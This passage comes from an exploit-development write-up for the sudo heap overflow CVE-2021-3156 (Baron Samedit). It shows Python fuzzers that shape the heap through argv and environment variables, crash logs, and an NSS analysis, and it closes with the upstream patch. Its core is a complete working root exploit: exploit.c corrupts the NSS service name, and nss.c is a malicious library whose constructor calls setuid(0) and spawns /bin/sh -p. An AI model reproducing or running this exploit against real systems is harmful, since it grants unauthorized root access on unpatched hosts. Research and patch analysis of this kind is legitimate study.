    if os.path.isfile(fname) and Path(fname).stat().st_size > 200000:
        return

    # write to file
    with open(fname, 'a+') as f:
        f.write("----------------------------\n")
        f.write(lines[1].decode('ascii'))
        if key:
            distance = ptrs[key] - ptrs[b'user_args']
            f.write(f"user_args < {key.decode('ascii')}\n")
            f.write(f"distance: 0x{distance:x}\n")
        if key:
            f.write(f"0x{ptrs[b'user_args']:016x} < 0x{ptrs[key]:016x}\n")
        f.write("args: sudoedit ")
        f.write(" ".join(arg))
        f.write("\n\n")
        for k in env:
            f.write(f"{k}={env[k]}\n")
        f.write("\n")
        f.write(lines[0].decode('ascii'))
        f.write("\n")

        test = {}
        test['arg'] = arg
        test['env'] = env
        f.write(json.dumps(test))
        f.write("\n\n")

# this will run sudoedit with a set of arguments and environment variables
def run_sudoedit(arg, env):
    print("-------------")
    # disable stdout buffering with stdbuf wrapping around sudoedit
    # and add the commandline arguments
    _cmd = ["/usr/bin/stdbuf", "-o0", "/usr/local/bin/sudoedit"] + arg

    # execute it
    p = subprocess.Popen(_cmd, env=env, bufsize=0, stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    try:
        # send some newlines and check if we get any output
        lines = p.communicate(b"x\nx\nx\nx\n", timeout=0.1)
    except subprocess.TimeoutExpired:
        # terminate on timeout
        p.terminate()
        lines = p.communicate()
    if p.returncode == -11:
        print(f"SEGFAULT")
    
    # read the list of function pointers
    ptrs = {}
    skipping = True
    for line in lines[0].splitlines():
        key,val = line.split(b'=')
        if key == b'user_args':
            skipping = False
        if not skipping:
            ptrs[key] = int(val,16)
    
    # go through all function pointers
    if ptrs and b'user_args' in ptrs:
        for key in ptrs:
            if key != b'user_args':
                # is our overflow buffer before a function pointer?
                if ptrs[b'user_args'] < ptrs[key]:
                    distance = ptrs[key] - ptrs[b'user_args']
                    if distance<14000:
                        fname = f'{FOLDER}/{distance}'
                        dump_file(fname, lines, ptrs, arg, env, key)

                        # did we get a segfault?
                        if p.returncode == -11:
                            fname = f"{FOLDER}/crashes/segfault_{distance}"
                            dump_file(fname, lines, ptrs, arg, env, None)
                            return
                        return

ALPHABET = '0123456789ABCDEFGHIKLMNOPQRSTUVWXYZ'
# fuzz loop
while True:
    # select random size values
    arg1 = random.choice(ARG1)
    rand_arg2_size = random.choice(ARG2)
    rand_arg3_size = random.choice(ARG3)
    rand_hostname_size = random.choice(HOSTNAME)
    rand_env_size = random.choice(ENV)
    arg = []
    env = {}

    # arguments
    # ... -s AAAAAAA\ ...
    if arg1:
        arg.append(arg1)
    arg.append("-s")
    arg.append(random.choice(ALPHABET)*rand_arg2_size + "\\")
    if rand_arg3_size:
        arg.append(random.choice(ALPHABET)*rand_arg3_size)
        
    # environment variables
    if rand_hostname_size:
        env["HOSTNAME"] = random.choice(ALPHABET)*rand_hostname_size
    if rand_env_size:
        env[random.choice(ALPHABET)*3] = random.choice(ALPHABET)*rand_env_size
        
    # run sudoedit
    run_sudoedit(arg, env)
```

And we did find some crashes:

```log
----------------------------
user_args < rbtree1
distance: 0x3440
0x000055be6aa55a90 < 0x000055be6aa58ed0
args: sudoedit -s AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\

HOSTNAME=DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD
HHH=0000000000

user_details=0x55be68c01720
rbtree1=0x55be6aa58960
rbtree2=0x55be6aa58960
rbtree1=0x55be6aa58ed0
rbtree2=0x55be6aa58ed0
rbtree1=0x55be6aa58960
rbtree2=0x55be6aa58960
user_args=0x55be6aa55a90
rbtree1=0x55be6aa58ed0
rbtree2=0x55be6aa58ed0

{"arg": ["-s", "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\\"], "env": {"HOSTNAME": "DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD", "HHH": "0000000000"}}

----------------------------
user_args < rbtree1
distance: 0x3440
0x000055bd180c6a90 < 0x000055bd180c9ed0
args: sudoedit -s DDDDDDDDDD\ 222222222222222222222222222222222222222222

HOSTNAME=GGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGG
HHH=3333333333333333333333333333333333333333333333333333333333333333333333333333333333333

user_details=0x55bd16eb8720
rbtree1=0x55bd180c9960
rbtree2=0x55bd180c9960
rbtree1=0x55bd180c9ed0
rbtree2=0x55bd180c9ed0
rbtree1=0x55bd180c9960
rbtree2=0x55bd180c9960
user_args=0x55bd180c6a90
rbtree1=0x55bd180c9ed0
rbtree2=0x55bd180c9ed0

{"arg": ["-s", "DDDDDDDDDD\\", "222222222222222222222222222222222222222222"], "env": {"HOSTNAME": "GGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGG", "HHH": "3333333333333333333333333333333333333333333333333333333333333333333333333333333333333"}}

----------------------------
user_args < rbtree1
distance: 0x3440
0x000055a1e21cca90 < 0x000055a1e21cfed0
args: sudoedit -B -s \ IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII

HOSTNAME=QQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQ
HHH=222222222222222222222222222222222222222222

user_details=0x55a1e165e720
rbtree1=0x55a1e21cf960
rbtree2=0x55a1e21cf960
rbtree1=0x55a1e21cfed0
rbtree2=0x55a1e21cfed0
rbtree1=0x55a1e21cf960
rbtree2=0x55a1e21cf960
user_args=0x55a1e21cca90
rbtree1=0x55a1e21cfed0
rbtree2=0x55a1e21cfed0

{"arg": ["-B", "-s", "\\", "IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII"], "env": {"HOSTNAME": "QQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQ", "HHH": "222222222222222222222222222222222222222222"}}


```
From this testcase, we can see that `user_args` is placed before some interesting heap pointers. At first, I hoped that one of these could lead to a useful control-flow target. However, the distance between our buffer and those pointers is still too large. Even if the ordering is promising, the overflow would probably corrupt too much unrelated heap data before reaching the target.

So I decided to give up on this specific idea for now. Instead of trying to force this layout to work, I started developing a new fuzzing script with more environment variables. The goal was to influence the heap layout more aggressively and collect better crashes. Based on those future crashes, I could work backward and find a more realistic way to attack the binary.

The overall idea was straightforward:

Fuzz the heap into different layouts by varying argv and envp.
Collect crashes that are both reproducible and stable.
Analyze the corresponding execution paths in depth.
Eventually identify a controllable primitive that can be turned into a working exploit.

To explore different heap layouts, I used the following fuzzing script:

```python
import subprocess
import time
import select
import random
import os
import json
from pathlib import Path

seed = time.time()
print(seed)
random.seed(seed)

FOLDER = 'crash'

# define some common size values usable for different inputs
_SIZES = [i for i in range(0,0xff)]
_SIZES += [2**i for i in range(0,15)]
_SIZES += [(2**i)+1 for i in range(0,15)]
_SIZES += [(2**i)-1 for i in range(0,15)]
_SIZES += ([0]*50)

# define some flags from sudo -h
ARG1 = ["-A","-B","-E","-e","-H","-K","-k","-l","-n","-P","-S","-s"]
ARG1 += [None, None, None, None, None, None, None]

# dump a testcase into a logfile
def dump_file(fname, lines, backtrace, arg, env):

    # create the folders if they don't exist
    directory = os.path.dirname(fname)
    if not os.path.exists(directory):
        os.makedirs(directory)
    
    # don't write the dump file if it's already too large
    if os.path.isfile(fname) and Path(fname).stat().st_size > 200000:
        return

    with open(fname, 'a+') as f:
        f.write("----------------------------\n")
        f.write(lines)
        f.write("\nbacktrace:\n")
        f.write("\n".join(backtrace))
        f.write("\n\n")

# this will run sudoedit to check if it crashes
def sudoedit_crash_check(arg,env):
    p = subprocess.Popen(["/usr/bin/stdbuf","-o0","/usr/local/bin/sudoedit"]+arg, 
        env=env, bufsize=0, stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)

    try:
        lines = p.communicate(b"x\nx\nx\nx\n",timeout=0.1)
    except subprocess.TimeoutExpired:
        p.terminate()
        lines = p.communicate()

    for out in lines:
        if b'malloc' in out or b'corrupt' in out or b'free()' in out or b'munmap_chunk()' in out or b'mremap_chunk()' in out:
            # currently not interested in aborts
            #return 'heap:abort'
            return False

    if p.returncode == -11:
        return 'segfault'

    return False

# this will run sudoedit in gdb to analyse the heap objects
def run_sudoedit(arg, env):
    print("-------------")
    # call gdb and load the sudoedit gef extension
    _cmd = ["/usr/bin/gdb"]
    _cmd += ["-ex", 'source /pwd/gef/sudoedit.py']
    _cmd += ["-ex", "set breakpoint pending on"]
    # add the environment vars within gdb
    _cmd += ["-ex", "unset environment"]
    for e in env:
        _cmd += ["-ex", f"set environment {e} = {env[e]}"]
    # execute the heap trace exension
    _cmd += ["-ex", "sudoedit"]
    # run sudoedit
    _cmd += ["-ex", "r "+" ".join([f"'{a}'" for a in arg])]
    #_cmd += ["-ex", "bt"]
    _cmd += ["-ex", "continue"]
    _cmd += ["-ex", "echo BACKTRACE_START_HERE\n"]
    _cmd += ["-ex", "bt"]
    _cmd += ["-ex", "echo BACKTRACE_END_HERE\n"]
    _cmd += ["/usr/local/bin/sudoedit"]

    # execute it
    p = subprocess.Popen(_cmd, bufsize=0, 
            stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    try:
        # send some newlines and check if we get any output
        lines = p.communicate(b"x\nx\nx\nx\n", timeout=4)
    except subprocess.TimeoutExpired:
        # terminate on timeout
        p.terminate()
        lines = p.communicate()
    
    reason = 'weird'
    backtrace = []
    in_backtrace = False
    for line in lines[0].splitlines():
        print(line.decode('utf-8'))
        if b'SIGSEGV, Segmentation fault' in line:
            reason = 'segfault'
        if b'SIGABRT, Aborted' in line:
            reason = 'abort'

        if b'BACKTRACE_END_HERE' in line:
            in_backtrace = False
        if in_backtrace:
            backtrace.append(line.decode('utf-8'))
        if b'BACKTRACE_START_HERE' in line:
            in_backtrace = True

    if os.path.isfile('/tmp/heap'):

        # read the heap data collected by the gef extension
        """
        example /tmp/heap
        sudoersparse sudo_file_parse sudoers_policy_init sudoers_policy_open policy_open out>,
        push_include_int sudoerslex sudoersparse sudo_file_parse sudoers_policy_init sudoers_policy_open policy_open out>,
        sudo_getgrouplist2_v1 fill_group_list <user_details>) <user_details>) main
        """
        with open('/tmp/heap','r') as f:
            heap = f.read()
            lines = heap.splitlines()
        
        # extract the backtrace from the crash location
        _backtrace_short = ' '.join([i.split()[3] for i in backtrace if len(i.split())>3 and i.split()[1].startswith('0x')])
        # shorten the backtrace to use as a filename
        backtrace_short = "".join(x for x in _backtrace_short if x.isalnum() or x==' ' or x=='_')[:100]
        
        # take the filename based on the backtrace
        # fname = f"{FOLDER}/{reason}:{backtrace_short}"
        
        # take the filename from the first heap object after our buffer
        fname = f"{FOLDER}/{reason}:{backtrace_short}"
        dump_file(fname, heap, backtrace, arg, env)

        # dump the args and env in a .json file for automated reproduction
        with open(f'{FOLDER}/{reason}:{backtrace_short}.json', 'a+') as f:
            test = {}
            test['arg'] = arg
            test['env'] = env
            f.write(json.dumps(test))
            f.write('\n')

            
ALPHABET = '0123456789ABCDEFGHIKLMNOPQRSTUVWXYZ'
# fuzz loop
while True:
    # select random size values
    arg1 = random.choice(ARG1)
    rand_arg2_size = random.choice(_SIZES)
    rand_arg3_size = random.choice(_SIZES)
    # random sizes for env vars
    rand_envKey_size, rand_envVal_size = random.choice(_SIZES), random.choice(_SIZES)
    rand_LC_ALL_size = random.choice(_SIZES)
    rand_LOCPATH_size = random.choice(_SIZES)
    rand_TZ_size = random.choice(_SIZES)
    arg = []
    env = {}

    # arguments
    # ... -s AAAAAAA\ ...
    if arg1:
        arg.append(arg1)
    arg.append("-s")
    arg.append(random.choice(ALPHABET)*rand_arg2_size + "\\")
    if rand_arg3_size:
        arg.append(random.choice(ALPHABET)*rand_arg3_size)
        
    # environment variables
    if rand_LC_ALL_size:
        env["LC_ALL"] = random.choice(ALPHABET)*rand_LC_ALL_size
    if rand_LOCPATH_size:
        env["LOCPATH"] = random.choice(ALPHABET)*rand_LOCPATH_size
    if rand_TZ_size:
        env["TZ"] = random.choice(ALPHABET)*rand_TZ_size
    if rand_envKey_size:
        env[random.choice(ALPHABET)*rand_envKey_size] = random.choice(ALPHABET)*rand_envVal_size
        
    # check if sudoedit crashes
    crash = sudoedit_crash_check(arg, env)
    if crash:
        print(f"we got a {crash}, check heap")
        run_sudoedit(arg, env)

```

This fuzzing framework was originally written by LiveOverflow, and I would like to thank him for the excellent guidance. Through this series, I learned a great deal about how to design fuzzing scripts for binaries whose behavior heavily depends on the interaction between argv and envp.

sudo is a particularly challenging target for me. Its initialization process involves numerous allocations, environment variables, configuration parsing, and interactions with glibc internals, making both debugging and reasoning about the heap layout difficult. The methodology demonstrated by LiveOverflow provided an excellent example of how a vulnerability researcher approaches such a complex binary: first generate diverse states, then classify crashes, and finally investigate the most promising ones instead of attempting to understand the entire codebase at once.

Oke, let check the crashes:

```bash
root:/pwd# cd crash/
root:/pwd/crash# ls
'abort:__GI_abort __libc_message malloc_printerr _int_free free_member free_privilege free_userspec free_us'
'abort:__GI_abort __libc_message malloc_printerr _int_free free_member free_privilege free_userspec free_us.json'
'abort:__GI_abort __libc_message malloc_printerr munmap_chunk __GI__IO_str_overflow __GI__IO_default_xsputn'
'abort:__GI_abort __libc_message malloc_printerr munmap_chunk __GI__IO_str_overflow __GI__IO_default_xsputn.json'
'abort:__GI_abort __libc_message malloc_printerr munmap_chunk _nss_files_initgroups_dyn internal_getgroupli'
'abort:__GI_abort __libc_message malloc_printerr munmap_chunk _nss_files_initgroups_dyn internal_getgroupli.json'
'abort:__GI_abort __libc_message malloc_printerr munmap_chunk free_member free_privilege free_userspec free'
'abort:__GI_abort __libc_message malloc_printerr munmap_chunk free_member free_privilege free_userspec free.json'
'segfault:    set_cmnd sudoers_policy_check policy_check'
'segfault:    set_cmnd sudoers_policy_check policy_check.json'
'segfault:  set_cmnd sudoers_policy_check policy_check'
'segfault:  set_cmnd sudoers_policy_check policy_check.json'
'segfault:_IO_cleanup __run_exit_handlers __GI_exit main'
'segfault:_IO_cleanup __run_exit_handlers __GI_exit main.json'
'segfault:_IO_flush_all_lockp _IO_cleanup __run_exit_handlers __GI_exit main'
'segfault:_IO_flush_all_lockp _IO_cleanup __run_exit_handlers __GI_exit main.json'
'segfault:_IO_new_fclose sudo_file_close sudoers_cleanup do_cleanup sudo_fatalx_nodebug_v1 tgetpass sudo_conve'
'segfault:_IO_new_fclose sudo_file_close sudoers_cleanup do_cleanup sudo_fatalx_nodebug_v1 tgetpass sudo_conve.json'
'segfault:__GI__IO_default_finish _IO_new_fclose sudo_file_close sudoers_cleanup do_cleanup sudo_fatalx_nodebu'
'segfault:__GI__IO_default_finish _IO_new_fclose sudo_file_close sudoers_cleanup do_cleanup sudo_fatalx_nodebu.json'
'segfault:__GI__IO_free_backup_area _IO_new_file_close_it _IO_new_fclose sudo_file_close sudoers_cleanup do_cl'
'segfault:__GI__IO_free_backup_area _IO_new_file_close_it _IO_new_fclose sudo_file_close sudoers_cleanup do_cl.json'
'segfault:__GI___libc_free _IO_deallocate_file sudo_file_close sudoers_cleanup do_cleanup sudo_fatalx_nodebug_'
'segfault:__GI___libc_free _IO_deallocate_file sudo_file_close sudoers_cleanup do_cleanup sudo_fatalx_nodebug_.json'
'segfault:__GI___libc_free _nss_files_initgroups_dyn internal_getgrouplist getgrouplist sudo_getgrouplist2_v1 '
'segfault:__GI___libc_free _nss_files_initgroups_dyn internal_getgrouplist getgrouplist sudo_getgrouplist2_v1 .json'
'segfault:__GI___libc_free free_member free_privilege free_userspec free_userspecs free_parse_tree sudo_file_c'
'segfault:__GI___libc_free free_member free_privilege free_userspec free_userspecs free_parse_tree sudo_file_c.json'
'segfault:__GI___nss_database_lookup2 __GI___nss_shadow_lookup2 setup setspent sudo_setspent sudo_passwd_init '
'segfault:__GI___nss_database_lookup2 __GI___nss_shadow_lookup2 setup setspent sudo_setspent sudo_passwd_init .json'
'segfault:__GI___nss_lookup_function internal_getgrouplist getgrouplist sudo_getgrouplist2_v1 sudo_make_gidlis'
'segfault:__GI___nss_lookup_function internal_getgrouplist getgrouplist sudo_getgrouplist2_v1 sudo_make_gidlis.json'
'segfault:__dcigettext __GI___dcgettext display_lecture check_user_interactive sudoers_policy_main sudoers_pol'
'segfault:__dcigettext __GI___dcgettext display_lecture check_user_interactive sudoers_policy_main sudoers_pol.json'
'segfault:__dcigettext __GI___dcgettext vlog_warning log_warningx log_auth_failure check_user_interactive sudo'
'segfault:__dcigettext __GI___dcgettext vlog_warning log_warningx log_auth_failure check_user_interactive sudo.json'
'segfault:free_parse_tree sudo_file_close sudoers_cleanup do_cleanup sudo_fatalx_nodebug_v1 tgetpass sudo_conv'
'segfault:free_parse_tree sudo_file_close sudoers_cleanup do_cleanup sudo_fatalx_nodebug_v1 tgetpass sudo_conv.json'
'segfault:free_userspec free_userspecs free_parse_tree sudo_file_close sudoers_cleanup do_cleanup sudo_fatalx_'
'segfault:free_userspec free_userspecs free_parse_tree sudo_file_close sudoers_cleanup do_cleanup sudo_fatalx_.json'
'segfault:free_userspecs free_parse_tree sudo_file_close sudoers_cleanup do_cleanup sudo_fatalx_nodebug_v1 tge'
'segfault:free_userspecs free_parse_tree sudo_file_close sudoers_cleanup do_cleanup sudo_fatalx_nodebug_v1 tge.json'
'segfault:nss_new_service __GI___nss_lookup_function __GI___nss_lookup setup setspent sudo_setspent sudo_passw'
'segfault:nss_new_service __GI___nss_lookup_function __GI___nss_lookup setup setspent sudo_setspent sudo_passw.json'
'segfault:set_cmnd sudoers_policy_check policy_check'
'segfault:set_cmnd sudoers_policy_check policy_check.json'
'segfault:sudoers_lookup_check sudoers_policy_main sudoers_policy_check policy_check'
'segfault:sudoers_lookup_check sudoers_policy_main sudoers_policy_check policy_check.json'
'segfault:sudoers_policy_check policy_check'
'segfault:sudoers_policy_check policy_check.json'
 weird:
 weird:.json
'weird:__tcsetattr tcsetattr_nobg sudo_term_noecho_v1 tgetpass sudo_conversation auth_getpass verify_user c'
'weird:__tcsetattr tcsetattr_nobg sudo_term_noecho_v1 tgetpass sudo_conversation auth_getpass verify_user c.json'
root:/pwd/crash#

```
From the collected crashes, we can see that many of them involve `__nss_lookup_function` or functions called from it. Since the same subsystem appears repeatedly, it seems like a good place to start our investigation.

So the next question naturally becomes:

What is NSS?

NSS (Name Service Switch) is a glibc mechanism used to decide where user, group, host, and shadow information should be loaded from. For example, user information can come from local files such as `/etc/passwd` and `/etc/shadow`, or from external services such as LDAP.

In this case, `sudo` uses NSS because it needs to look up user and authentication-related information. That is why functions like `setspent`, `nss_lookup_function`, and `nss_new_service` appear in the crash path.

## My own exploitation

The idea is fairly straightforward: carefully pad `argv` and `envp` to shape the heap layout, corrupt the NSS service name, and make the dynamic loader load a controlled NSS module. Once the module is loaded, its constructor runs with elevated privileges, calls `setuid(0)`/`setgid(0)`, and finally executes `/bin/sh -p` via `execve`.

```c
//exploit.c
#define _GNU_SOURCE
#include <unistd.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

static void die(const char *s) {
    perror(s);
    _exit(1);
}

static void make_raw(char *buf, size_t total, char c, size_t n, int slash) {
    memset(buf, 0, total);

    if (n + 2 > total)
        _exit(1);

    memset(buf, c, n);

    if (slash)
        strcat(buf, "\\");
}

static void make_prefixed(char *buf, size_t total, const char *prefix, char c, size_t n) {
    memset(buf, 0, total);

    size_t len = strlen(prefix);
    if (len + n + 1 > total)
        _exit(1);

    memcpy(buf, prefix, len);
    memset(buf + len, c, n);
}

int main(void) {
    /*
     * Keep the same geometry as the working service_user/NSS exploit.
     * Do not casually change these values.
     */
    char user_args[0xf0];
    make_raw(user_args, sizeof(user_args), 'Y', 0xe0, 1);

    char *argv[] = {
        "sudoedit",
        "-s",
        user_args,
        NULL
    };

    /*
     * Same LC_* heap-shaping variables as the known layout.
     */
    char messages[0xe0];
    char telephone[0x50];
    char measurement[0x50];

    make_prefixed(messages, sizeof(messages),
                  "LC_MESSAGES=en_GB.UTF-8@", 'A', 0xb8);

    make_prefixed(telephone, sizeof(telephone),
                  "LC_TELEPHONE=C.UTF-8@", 'A', 0x28);

    make_prefixed(measurement, sizeof(measurement),
                  "LC_MEASUREMENT=C.UTF-8@", 'A', 0x28);

    /*
     * Main overflow bridge.
     */
    char bridge[0x500];
    make_raw(bridge, sizeof(bridge), 'X', 0x4cf, 1);

    /*
     * service_user overwrite path.
     *
     * "x/x\\" is intended to corrupt the NSS service name so glibc later
     * attempts to resolve a controlled NSS module path.
     */
    char *envp[] = {
        bridge,

        "\\", "\\", "\\", "\\",
        "\\", "\\", "\\", "\\",

        "XXXXXXX\\",

        "\\", "\\", "\\", "\\",
        "\\", "\\", "\\", "\\",
        "\\", "\\", "\\", "\\",
        "\\", "\\", "\\",

        "x/x\\",

        "Z",

        messages,
        telephone,
        measurement,

        NULL
    };

    execve("/usr/local/bin/sudoedit", argv, envp);
    die("execve");
}

```

```c
//nss.c
#define _GNU_SOURCE
#include <unistd.h>
#include <stdlib.h>

static void __attribute__((constructor)) init(void) {
    setuid(0);
    setgid(0);

    char *argv[] = {
        "/bin/sh",
        "-p",
        NULL
    };

    char *envp[] = {
        "PATH=/usr/bin:/bin",
        NULL
    };

    execve("/bin/sh", argv, envp);
    _exit(0);
}

```

## The patched version

```c
if (ISSET(sudo_mode, MODE_SHELL|MODE_LOGIN_SHELL) &&
    ISSET(sudo_mode, MODE_RUN))
```

This prevents sudoedit / MODE_EDIT from reaching the shell-mode unescaping path.

```c
if (from[0] == '\\' && from[1] != '\0' &&
    !isspace((unsigned char)from[1]))
    from++;
```

This fixes the single-backslash case by making sure the next byte is not NUL before skipping the backslash.

```c
if (size - (to - user_args) < 1) {
    sudo_warnx(U_("internal error, %s overflow"), __func__);
    debug_return_int(NOT_FOUND_ERROR);
}
```
This adds a bounds check before writing into user_args.

## References

* LiveOverflow, *CVE-2021-3156 sudo Baron Samedit* video series:
  `https://www.youtube.com/watch?v=TLa2VqcGGEQ&list=PLhixgUqwRTjy0gMuT4C3bmjeZjuNQyqdx`

* CVE-2021-3156 report by Nguyen Tuong Hung:
  `https://ngtuonghung.github.io`
  Note: I could not access this report at the time of writing, but it was still useful as a reference point during my research.

* The Fuzzing Project:
  `https://fuzzing-project.org/`

